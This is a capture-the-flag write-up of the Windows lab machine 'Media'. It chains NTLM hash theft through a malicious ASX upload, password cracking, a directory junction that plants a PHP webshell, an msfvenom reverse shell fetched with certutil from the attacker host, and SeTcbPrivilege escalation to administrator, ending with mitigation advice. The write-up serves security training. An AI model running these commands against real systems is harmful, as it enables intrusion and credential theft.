






# Machine Information

<table>
<tr>
<td><strong>IP Address</strong></td>
<td>10.129.234.67</td>
</tr>
<tr>
<td><strong>Operating System</strong></td>
<td>Windows</td>
</tr>
<tr>
<td><strong>Hostname</strong></td>
<td>MEDIA</td>
</tr>
<tr>
<td><strong>Domain</strong></td>
<td>WORKGROUP</td>
</tr>
<tr>
<td><strong>Release Date</strong></td>
<td>September 2025</td>
</tr>
<tr>
<td><strong>Difficulty</strong></td>
<td>Medium</td>
</tr>
</table>


# Machine Description

Media is a Windows-based machine that demonstrates the dangers of insecure file upload implementations combined with privilege escalation vulnerabilities. The attack chain involves exploiting a web form that accepts Windows Media Player (WMP) compatible files without proper validation. By crafting a malicious ASX file that triggers NTLM authentication attempts, an attacker can capture NetNTLMv2 hashes. The captured credentials lead to SSH access as a low-privileged user. Further exploitation involves leveraging a scheduled task that processes uploaded files with Windows Media Player running as NT AUTHORITY\LOCAL SERVICE. By uploading a PHP webshell to the writable uploads directory and accessing it through the web server, the attacker gains code execution in the LOCAL SERVICE context. The final privilege escalation utilizes the SeTcbPrivilege to impersonate the SYSTEM account and add the low-privileged user to the administrators group, resulting in full system compromise.


# Exploitation Summary

The attack chain involved:

1. **Network Reconnaissance**: Scanning the target to identify HTTP, SSH, and RDP services
2. **Web Form Enumeration**: Discovering a file upload form accepting Windows Media Player formats
3. **NTLM Credential Capture**: Creating a malicious ASX file that triggers SMB authentication and capturing the NetNTLMv2 hash using Responder
4. **Hash Cracking**: Using Hashcat to crack the captured NetNTLMv2 hash and obtaining user credentials
5. **Initial Access**: Connecting via SSH with the compromised credentials (enox:1234virus@)
6. **Local Enumeration**: Discovering a scheduled task script that processes uploaded files with Windows Media Player
7. **PHP Webshell Upload**: Leveraging the file upload form to place a PHP webshell in a web-accessible directory
8. **Code Execution as LOCAL SERVICE**: Accessing the webshell through HTTP to gain command execution in the NT AUTHORITY\LOCAL SERVICE context
9. **Reverse Shell Establishment**: Creating a Meterpreter payload and establishing a reverse shell connection
10. **Privilege Enumeration**: Discovering the disabled SeTcbPrivilege and enabling it through PowerShell
11. **Privilege Escalation to SYSTEM**: Using the seTcb utility to leverage SeTcbPrivilege for adding the user to the administrators group
12. **Domain Administrator Access**: Re-authenticating via SSH to confirm administrator privileges and obtaining the root flag


# Detailed Walkthrough

## Road to User Flag

### ***Phase 1: Initial Network Reconnaissance and Service Discovery***

I began by scanning the target machine with Nmap to identify open ports and running services:

```
$ sudo nmap 10.129.234.67 -Pn -sV  

...SNIP...
 
PORT     STATE SERVICE       VERSION  
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)  
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)  
3389/tcp open  ms-wbt-server Microsoft Terminal Services  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows  

...SNIP...
```

These findings indicated a Windows machine running a web server, confirming the presence of HTTP-based services that warranted further investigation.

### ***Phase 2: Web Application Enumeration and File Upload Vulnerability Discovery***

I navigated to the HTTP service running on port 80 and discovered a recruitment form requesting personal information and a video introduction. The form explicitly stated: "Upload a brief introduction video (compatible with Windows Media Player)". 



This presented a file upload functionality that accepted Windows Media Player formats, including ASX, WMV, AVI, and other multimedia formats, creating a potential exploitation vector.

### ***Phase 3: Malicious ASX File Generation and NTLM Hash Capture***

As ASX (Advanced Stream Redirector) files can contain UNC paths that trigger SMB authentication, I used the `ntlm_theft.py` utility to generate a malicious ASX file. This tool creates weaponized ASX files designed to automatically attempt SMB connections when processed by Windows Media Player.

```
$ python3 ./ntlm_theft.py --generate asx --server 10.10.14.102 --filename test
Created: test/test.asx (OPEN)
Generation Complete.
```

The generated ASX file contained the following:

```
<asx version="3.0">
  <title>Leak</title>
  <entry>
     <title></title>
     <ref href="file://10.10.14.102/leak/leak.wma"/>
  </entry>
</asx>
```

This file, when processed by Windows Media Player, would attempt to access a UNC path pointing to my attacking machine (10.10.14.102), triggering an automatic NTLM authentication attempt. I simultaneously started Responder on my attacking machine to capture the authentication attempt.

```
$ sudo responder -I tun0

...SNIP...

[+] Listening for events...
```

I then submitted the recruitment form with arbitrary values and uploaded the malicious ASX file, and received the following promtp:




Within seconds of the upload, Responder captured a NetNTLMv2 hash from the account `MEDIA\enox`:

```
...SNIP...

[SMB] NTLMv2-SSP Client   : 10.129.234.67
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : enox::MEDIA:248e1a76b2e96023:43A4C14F6C0EEE5D62C8108461771F38:01010000000000008046809...SNIP...
```

This indicated that this account on the target machine processed the uploaded file with Windows Media Player, triggering the SMB connection attempt that revealed user credentials.

### ***Phase 4: NetNTLMv2 Hash Cracking***

The captured NetNTLMv2 hash was saved to a file and cracked using Hashcat with the `rockyou.txt` wordlist, leveraging hash mode 5600 (NetNTLMv2).

```
$ hashcat -m 5600 enox.hash /usr/share/wordlists/rockyou.txt

...SNIP...

ENOX::MEDIA:...SNIP...:1234virus@

...SNIP...
```

The password cracking was successful, yielding the credentials: `enox:1234virus@`

### ***Phase 5: Initial Shell Access via SSH***

I attempted to use the recovered credentials to authenticate via RDP (port 3389) but encountered connection failures. Subsequently, SSH authentication I attempted on port 22, which accepted the credentials, providing command-line access to the system as the low-privileged user `enox`.

```
$ ssh enox@10.129.234.67

...SNIP...

enox@MEDIA C:\Users\enox>
```

### ***Phase 6: Get the flag

With SSH access established as the `enox` user, the attacker navigated to the user's Desktop directory and retrieved the user flag.

```
$ type C:\Users\enox\Desktop\user.txt
```

<mark>User flag</mark>: `68acf5be9a7c950cb9460ffe46ac87ae`

## Road to Root Flag

### ***Phase 1: Discovery of a PowerShell script***

I began local enumeration and discovered the following PowerShell script named `review.ps1` in the `enox`'s Documents directory. 

```
enox@MEDIA C:\Users\enox>type Documents\review.ps1
function Get-Values {  
   param (  
       [Parameter(Mandatory = $true)]  
       [ValidateScript({Test-Path -Path $_ -PathType Leaf})]  
       [string]$FilePath  
   )  
  
   # Read the first line of the file  
   $firstLine = Get-Content $FilePath -TotalCount 1  
  
   # Extract the values from the first line  
   if ($firstLine -match 'Filename: (.+), Random Variable: (.+)') {  
       $filename = $Matches[1]  
       $randomVariable = $Matches[2]  
  
       # Create a custom object with the extracted values  
       $repoValues = [PSCustomObject]@{  
           FileName = $filename  
           RandomVariable = $randomVariable  
       }  
  
       # Return the custom object  
       return $repoValues  
   }  
   else {  
       # Return $null if the pattern is not found  
       return $null  
   }  
}  
  
function UpdateTodo {  
   param (  
       [Parameter(Mandatory = $true)]  
       [ValidateScript({Test-Path -Path $_ -PathType Leaf})]  
       [string]$FilePath  
   )  
  
   # Create a .NET stream reader and writer  
   $reader = [System.IO.StreamReader]::new($FilePath)  
   $writer = [System.IO.StreamWriter]::new($FilePath + ".tmp")  
  
   # Read the first line and ignore it  
   $reader.ReadLine() | Out-Null  
  
   # Copy the remaining lines to a temporary file  
   while (-not $reader.EndOfStream) {  
       $line = $reader.ReadLine()  
       $writer.WriteLine($line)  
   }  
  
   # Close the reader and writer  
   $reader.Close()  
   $writer.Close()  
  
   # Replace the original file with the temporary file  
   Remove-Item $FilePath  
   Rename-Item -Path ($FilePath + ".tmp") -NewName $FilePath  
}  
  
$todofile="C:\\Windows\\Tasks\\Uploads\\todo.txt"  
$mediaPlayerPath = "C:\Program Files (x86)\Windows Media Player\wmplayer.exe"  
  
  
while($True){  
  
   if ((Get-Content -Path $todofile) -eq $null) {  
       Write-Host "Todo is empty."  
       Sleep 60 # Sleep for 60 seconds before rechecking  
   }  
   else {  
       $result = Get-Values -FilePath $todofile  
       $filename = $result.FileName  
       $randomVariable = $result.RandomVariable  
       Write-Host "FileName: $filename"  
       Write-Host "Random Variable: $randomVariable"  
  
       # Opening the File in Windows Media Player  
       Start-Process -FilePath $mediaPlayerPath -ArgumentList "C:\Windows\Tasks\uploads\$randomVariable\$filename"  
  
       # Wait for 15 seconds  
       Start-Sleep -Seconds 15  
  
       $mediaPlayerProcess = Get-Process -Name "wmplayer" -ErrorAction SilentlyContinue  
       if ($mediaPlayerProcess -ne $null) {  
           Write-Host "Killing Windows Media Player process."  
           Stop-Process -Name "wmplayer" -Force  
       }  
  
       # Task Done  
       UpdateTodo -FilePath $todofile # Updating C:\Windows\Tasks\Uploads\todo.txt  
       Sleep 15  
   }  
  
}
```

This PowerShell script was used to automatically process video files that were uploaded through the web form. The script continuously monitored the `todo.txt` file located at `C:\Windows\Tasks\Uploads\todo.txt`, which contained a queue of uploaded files awaiting processing. Each entry in the todo.txt file specified the filename and the random value corresponding to the directory where the uploaded file was stored. When an entry was found in the `todo.txt` file, the script extracted both the filename and the random value, then opened the file with Windows Media Player by constructing the full path as `C:\Windows\Tasks\Uploads\$randomVariable\$filename`. After allowing 15 seconds for processing, the script terminated the Media Player process and removed the processed entry from the queue using the UpdateTodo function, ensuring each file was only processed once.

### ***Phase 2: Web Server Root Analysis and Path Traversal Discovery***

Knowing that the machine had a web server listening on port 80, I searched for potential paths that could lead to configuration files. During this enumeration, the presence of the XAMPP directory under `C:\` was discovered. XAMPP is an open-source development suite that integrates Apache (web server), MySQL (database), PHP, and Perl. It is commonly used by developers to test web applications locally. In the context of this Windows server, XAMPP provided the infrastructure necessary to run the recruitment website with the file upload form. The XAMPP directory was installed in `C:\xampp\`, and the main directory from which web pages are served is `C:\xampp\htdocs\`. Within this directory, the file `index.php` was found, which completely managed the functionality of the upload form visible in the browser.

```
enox@MEDIA C:\Users\enox>type C:\xampp\htdocs\index.php  
<?php  
error_reporting(0);  
  
	// Your PHP code for handling form submission and file upload goes here.  
	$uploadDir = 'C:/Windows/Tasks/Uploads/'; // Base upload directory  
  
	if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["fileToUpload"])) {  
	    $firstname = filter_var($_POST["firstname"], FILTER_SANITIZE_STRING);  
	    $lastname = filter_var($_POST["lastname"], FILTER_SANITIZE_STRING);  
	    $email = filter_var($_POST["email"], FILTER_SANITIZE_STRING);  
  
        // Create a folder name using the MD5 hash of Firstname + Lastname + Email 
	    $folderName = md5($firstname . $lastname . $email);  
  
        // Create the full upload directory path  
        $targetDir = $uploadDir . $folderName . '/';  
  
        // Ensure the directory exists; create it if not  
        if (!file_exists($targetDir)) {  
	        mkdir($targetDir, 0777, true);  
        }  
  
        // Sanitize the filename to remove unsafe characters  
        $originalFilename = $_FILES["fileToUpload"]["name"];  
        $sanitizedFilename = preg_replace("/[^a-zA-Z0-9._]/", "", $originalFilename);  
  
        // Build the full path to the target file  
        $targetFile = $targetDir . $sanitizedFilename;  
  
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $targetFile)) {  
	        echo "<script>alert('Your application was successfully submitted. Our HR shall review your video and get back to you.');</script>";  
  
            // Update the todo.txt file  
            $todoFile = $uploadDir . 'todo.txt';  
            $todoContent = "Filename: " . $originalFilename . ", Random Variable: " . $folderName . "\n";  
  
            // Append the new line to the file  
            file_put_contents($todoFile, $todoContent, FILE_APPEND);  
        } 
        else {  
            echo "<script>alert('Uh oh, something went wrong... Please submit again');</script>";  
        }  
     }  
?>
   
...SNIP...
```

The PHP script handles the reception of files uploaded through the web form. It receives the form data (firstname, lastname, email, and file), and sanitizes the string inputs using `filter_var` to remove dangerous characters. Subsequently, it generates an MD5 hash from the concatenation of firstname, lastname, and email, and creates a directory in `C:/Windows/Tasks/Uploads/` using this hash as the folder name. It sanitizes the original filename by removing non-alphanumeric characters with a regex, and moves the uploaded file to the newly created directory using `move_uploaded_file`. After the upload, it writes an entry to the `todo.txt` file containing the original filename and the MD5 hash (the "Random Variable" used in `review.ps1`). This entry is appended to the file using `file_put_contents` with the `FILE_APPEND` flag. The relationship with review.ps1 is direct: this PHP script populates the work queue `todo.txt` that `review.ps1` continuously monitors and processes. Each time a user uploads a file, `index.php` creates an entry in `todo.txt`, and `review.ps1` reads that entry, opens the file with Windows Media Player, and removes the entry from the queue. I checked the Uploads directory to confirm the presence of the previously uploaded ASX file. The directory listing revealed a subdirectory with a name matching the expected pattern:

```
enox@MEDIA C:\Users\enox>dir /q C:\Windows\Tasks\Uploads

...SNIP...

10/07/2026  10:44 PM    <DIR>          NT AUTHORITY\LOCAL SERV7cafbb02ae77fd99b0711c6984982925

...SNIP...
```

To verify this was indeed the upload directory created by the PHP script, I calculated the MD5 hash using the same parameters employed by `index.php`:

```
$ echo -n testtesttest@mail.com | md5sum
7cafbb02ae77fd99b0711c6984982925  -
```

The hash matched the directory name exactly, confirming that the previously uploaded ASX file was stored at `C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925\`. Additionally, the directory was owned by `NT AUTHORITY\LOCAL SERVICE`, revealing that the Apache web server executed in the context of this service account. 

### ***Phase 3: ACLs enumeration***

I then enumerated the Access Control List (ACL) of the uploads directory to determine effective permissions:

```
enox@MEDIA C:\Users\enox>icacls C:\Windows\Tasks\Uploads /t

C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925 Everyone:(I)(OI)(CI)(F)
                                                         BUILTIN\Administrators:(I)(F)
                                                         BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                                         NT AUTHORITY\SYSTEM:(I)(F)
                                                         NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                                         NT AUTHORITY\LOCAL SERVICE:(I)(F)
                                                         CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

The ACL indicated that `Everyone` possessed Full Control (F) permissions on the directory, meaning any authenticated user, including the enox user, had complete access. I subsequently enumerated the ACL of the Apache web root directory:

```
enox@MEDIA C:\Users\enox>icacls C:\xampp\htdocs /t

C:\xampp\htdocs MEDIA\Administrator:(I)(OI)(CI)(F)
               NT AUTHORITY\LOCAL SERVICE:(I)(OI)(CI)(F)
               NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
               BUILTIN\Administrators:(I)(OI)(CI)(F)
               BUILTIN\Users:(I)(OI)(CI)(RX)
               CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

This revealed that `NT AUTHORITY\LOCAL SERVICE` possessed Full Control permissions on the web root directory, including write access.

### ***Phase 4: Exploitation via Directory Junction Creation***

Recognizing the security implications, I devised a strategy to leverage these permissions. The objective was to ensure that any file uploaded through the web form would be directly placed in the Apache web root, making it immediately accessible via HTTP and executable by the `NT AUTHORITY\LOCAL SERVICE` account. I created a **directory junction**, a symbolic link in Windows that transparently redirects file operations from one location to another. By creating a junction at `C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925\` that pointed to `C:\xampp\htdocs\`, any file written to the uploads directory by the PHP script and `NT AUTHORITY\LOCAL SERVICE` account would be automatically placed in the web root. This approach leveraged the fact that `NT AUTHORITY\LOCAL SERVICE` possessed Full Control over both the uploads directory and the web root. The PHP script would write files to what appeared to be the uploads directory, but the junction would transparently redirect these writes to the actual web root. First, I removed the existing upload directory:

```
enox@MEDIA C:\Users\enox>rmdir /s C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925
```

Then, I created a junction linking the uploads directory to the web root using the `mklink` command:

```
enox@MEDIA C:\Users\enox>mklink /J C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925 C:\xampp\htdocs
Junction created for C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925 <<===>> C:\xampp\htdocs
```

Verification confirmed the successful creation of the junction:

```
enox@MEDIA C:\Users\enox>dir C:\Windows\Tasks\Uploads

10/08/2026  12:00 AM    <JUNCTION>     7cafbb02ae77fd99b0711c6984982925 [C:\xampp\htdocs]
```

Accessing the junction revealed that it contained all files from the target directory:

```
enox@MEDIA C:\Users\enox>dir /q C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925

10/08/2026  12:00 AM    <DIR>          MEDIA\enox             .
10/02/2023  11:03 AM    <DIR>          BUILTIN\Administrators ..
10/02/2023  10:27 AM    <DIR>          BUILTIN\Administrators assets
10/02/2023  10:27 AM    <DIR>          BUILTIN\Administrators css
10/10/2023  05:00 AM            20,563 BUILTIN\Administrators index.php
10/02/2023  10:27 AM    <DIR>          BUILTIN\Administrators js
```

The junction successfully exposed the Apache web root directory structure. Now, any file uploaded through the web form would be written by the PHP script to `C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925\`, which the operating system would transparently redirect to `C:\xampp\htdocs\`. This meant uploaded files would be immediately accessible via HTTP and executable in the context of `NT AUTHORITY\LOCAL SERVICE`. With this junction in place, I submitted the recruitment form with predictable parameters and uploaded a PHP webshell, knowing it would be placed directly in the web root and accessible without requiring knowledge of the directory path structure



After uploading the PHP webshell through the recruitment form, I verified its presence in both the uploads directory and the web root to confirm the junction was functioning correctly:

```
enox@MEDIA C:\Users\enox>dir C:\Windows\Tasks\Uploads\7cafbb02ae77fd99b0711c6984982925

10/08/2026  12:11 AM             2,352 NT AUTHORITY\LOCAL SERVshell.php
```

```
enox@MEDIA C:\Users\enox>dir /q C:\xampp\htdocs

10/08/2026  12:11 AM             2,352 NT AUTHORITY\LOCAL SERVshell.php
```

The directory listing of `C:\xampp\htdocs` confirmed that `shell.php` was present and owned by `NT AUTHORITY\LOCAL SERVICE`. I then accessed the webshell through the HTTP interface by navigating to `http://10.129.234.67/shell.php` in a web browser. This activated the PHP webshell and executed it in the security context of `NT AUTHORITY\LOCAL SERVICE`, the account under which the Apache web server was running. The webshell provided a direct interface for executing arbitrary system commands with the privileges of the service account.



### ***Phase 5: Establishment of Interactive Reverse Shell***

The stateless nature of HTTP prompted me to establish a reverse shell. A Meterpreter payload was generated using MSFVenom:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.102 LPORT=1111 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 509 bytes
Final size of exe file: 7680 bytes
Saved as: shell.exe
```

I started a Python HTTP server on my attacking machine to serve the malicious EXE file:

```
$ python3 -m http.server 9000
```

From the PHP webshell, I used Windows' built-in file transfer utility to download the payload:

```
certutil.exe -urlcache -split -f http://10.10.14.102:9000/shell.exe C:\xampp\htdocs\shell.exe
```



A Metasploit handler was configured to receive the reverse connection:

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set lhost 10.10.14.102
msf exploit(multi/handler) > set lport 1111
msf exploit(multi/handler) > set Payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.102:1111
```

The payload was executed from the webshell, resulting in a successful Meterpreter session:



```
[*] Sending stage (248902 bytes) to 10.129.234.67
[*] Meterpreter session 1 opened (10.10.14.102:1111 -> 10.129.234.67:55619) at 2026-10-08 11:12:59 +0200
meterpreter > whoami
nt authority\local service
```

The Meterpreter session confirmed code execution in the `NT AUTHORITY\LOCAL SERVICE` context.

### ***Phase 6: Privilege Enumeration and Discovery of SeTcbPrivilege***

With an established Meterpreter session, I enumerated the privileges available to the `NT AUTHORITY\LOCAL SERVICE` account:

```
meterpreter > whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== ========
SeTcbPrivilege                Act as part of the operating system Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeCreateGlobalPrivilege       Create global objects               Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Disabled
SeTimeZonePrivilege           Change the time zone                Disabled
```

The critical discovery was the presence of `SeTcbPrivilege`, albeit in a disabled state. `SeTcbPrivilege` (formally "Act as part of the operating system") is one of the most powerful Windows privileges in existence. It grants the holder the ability to impersonate any user account on the system, including `NT AUTHORITY\SYSTEM`, by calling trusted authentication APIs that are normally reserved for the Windows Trusted Computing Base (TCB). In this case, the `SeTcbPrivilege` was assigned to the `NT AUTHORITY\LOCAL SERVICE` account but remained disabled, so I proceeded to enable this privilege through a PowerShell script.

### ***Phase 7: Enabling SeTcbPrivilege via PowerShell***

I switched from the CMD to PowerShell within the Meterpreter session:

```
meterpreter > powershell

PS C:\xampp\htdocs>
```

I transferred a PowerShell script (`Enable-Privilege.ps1`) to the target machine. This script implements functions to enumerate and enable Windows privileges. After importing the module I executed the privilege enablement script:

```
PS C:\xampp\htdocs> Import-Module ./Enable-Privilege.ps1
PS C:\xampp\htdocs> .\EnableAllTokenPrivs.ps1
```

Verification of the privilege status confirmed the successful enablement:

```
PS C:\xampp\htdocs> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeTcbPrivilege                Act as part of the operating system Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeCreateGlobalPrivilege       Create global objects               Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

All privileges, including `SeTcbPrivilege`, were enabled.

### ***Phase 8: Privilege Escalation Using seTcb.exe***

With `SeTcbPrivilege` enabled, I utilized the `seTcb.exe` utility. This tool exploits the `SeTcbPrivilege` to execute arbitrary commands in the `SYSTEM` account security context. The utility's `svc_add` function creates a new service that runs the specified command with `SYSTEM` privileges. I executed the following command:

```
PS C:\xampp\htdocs> .\seTcb.exe svc_add "C:\Windows\system32\cmd.exe /c net localgroup administrators enox /add"
```

This command leveraged `SeTcbPrivilege` to create a service that executed a `net` command to add the enox user to the local administrators group. The `net localgroup administrators` command subsequently confirmed the successful addition:

```
PS C:\xampp\htdocs> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
enox
The command completed successfully.
```

### ***Phase 9: Verification of Elevated Privileges and Integrity Level Escalation***

To ensure the privilege escalation was effective, I re-authenticated via SSH using the same credentials. This allowed the system to refresh the user's token and group memberships:

```
$ ssh enox@10.129.234.67
```

Upon reconnection, a `whoami /groups` check revealed the critical change:

```
enox@MEDIA C:\Users\enox> whoami /groups

...SNIP...

BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner

...SNIP...
```

As we can see, `enox` became a member of `BUILTIN\Administrators`.

### ***Phase 10: Get the flag***

With administrative privileges confirmed, I accessed the `Administrator`'s Desktop and retrieved the root flag:

```
enox@MEDIA C:\Users\enox> type C:\Users\Administrator\Desktop\root.txt
```

<mark>Root fl</mark>==: `7e2ce07fd047c1a8ff602f8fdecd9a9f`


# Key Vulnerabilities Exploited

- **Insecure File Upload Without Content Validation**: The web form accepted WMP-compatible files without proper verification, allowing upload of malicious ASX files designed to trigger NTLM authentication attempts
- **Predictable Directory Structure**: Uploaded files were stored using MD5 hashes of predictable user input, allowing attackers to calculate directory names in advance
- **Automated File Processing Without Verification**: The scheduled PowerShell script (review.ps1) automatically opened uploaded files with Windows Media Player without integrity checks, triggering SMB connections for malicious files
- **Directory Junction Symlink Exploitation**: Improper ACL configuration allowed a low-privileged user to create a directory junction linking the uploads directory to the web root, making uploaded files immediately web-accessible
- **Excessive Privileges on Service Account**: The NT AUTHORITY\LOCAL SERVICE account was granted Full Control permissions on sensitive directories and possessed the dangerous SeTcbPrivilege, creating a direct privilege escalation path
- **Disabled But Assigned Privilege**: SeTcbPrivilege was assigned to LOCAL SERVICE through Group Policy but only disabled, allowing re-enablement through token manipulation without requiring administrative intervention
- **seTcb.exe Accessibility**: The seTcb utility was accessible to the LOCAL SERVICE account, enabling direct exploitation of SeTcbPrivilege to execute arbitrary commands as SYSTEM


# Conclusion

The Media machine demonstrates how multiple misconfigurations combine to create a critical privilege escalation path. From credential capture via NTLM hash interception to SYSTEM-level access, each stage exploited the previous vulnerability. This emphasizes the importance of strict file upload validation, proper privilege assignment to service accounts, and careful ACL management. To mitigate these vulnerabilities, organizations should implement comprehensive file upload validation including content verification and antivirus scanning. Service accounts should operate with minimal privileges and dangerous privileges like SeTcbPrivilege should be completely removed, not merely disabled. Regular ACL audits and hardening of sensitive directories prevent unauthorized symlink exploitation. Scheduled tasks processing user-supplied files require strict whitelisting and integrity verification before execution. This case study underscores that Windows security requires defense in depth, as layered misconfigurations create an irresistible attack surface.
